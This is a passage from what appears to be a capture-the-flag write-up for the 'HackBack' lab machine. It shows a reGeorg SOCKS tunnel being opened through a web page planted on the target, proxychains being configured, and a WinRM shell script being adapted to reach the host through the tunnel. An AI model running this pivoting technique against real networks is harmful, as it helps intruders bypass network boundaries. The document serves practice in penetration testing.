 

#### Connect Proxy

Now I'll use `reGeorg` to connect to the page and start the tunnel:



    root@kali# python /opt/reGeorg/reGeorgSocksProxy.py -p 1080 -u http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/tun.aspx


                         _____
      _____   ______  __|___  |__  ______  _____  _____   ______
     |     | |   ___||   ___|    ||   ___|/     \|     | |   ___|                                       
     |     \ |   ___||   |  |    ||   ___||     ||     \ |   |  |                                                                        
     |__|\__\|______||______|  __||______|\_____/|__|\__\|______|
                        |_____|                      
                        ... every office needs a tool like Georg

      willem@sensepost.com / @_w_m__       
      sam@sensepost.com / @trowalts
      etienne@sensepost.com / @kamp_staaldraad       


    [INFO   ]  Log Level set to [INFO]                                                                  
    [INFO   ]  Starting socks server [127.0.0.1:1080], tunnel at [http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/a.aspx]
    [INFO   ]  Checking if Georg is ready
    [INFO   ]  Georg says, 'All seems fine'



#### Connect over WinRm

First I'll make sure that my `/etc/proxychains.conf` file is configured
to use the same port I gave reGeorg, 1080, and that quite mode is on so
I don't have to see all the
`|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:5985-<><>-OK`:



    root@kali# cat /etc/proxychains.conf | grep -vE "^#" | grep .
    strict_chain
    quiet_mode
    proxy_dns 
    tcp_read_time_out 15000
    tcp_connect_time_out 8000
    [ProxyList]
    socks4  127.0.0.1 1080



Next I'll edit [Alamot's WinRm ruby script](https://github.com/Alamot/code-snippets/blob/master/winrm/winrm_shell_with_upload.rb)
with the info for this box, pointing it at localhost, the place I want
it to connect once I'm through the proxy. It's also going to be very
useful to have the version of the script that includes file upload. I
did make one update to the script. Where it generates the prompt, if I
am inside a hidden directory, the `gi` command fails. I'll add `-force`
to fix that:
`output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi -force $pwd).Name),'> ')")`:
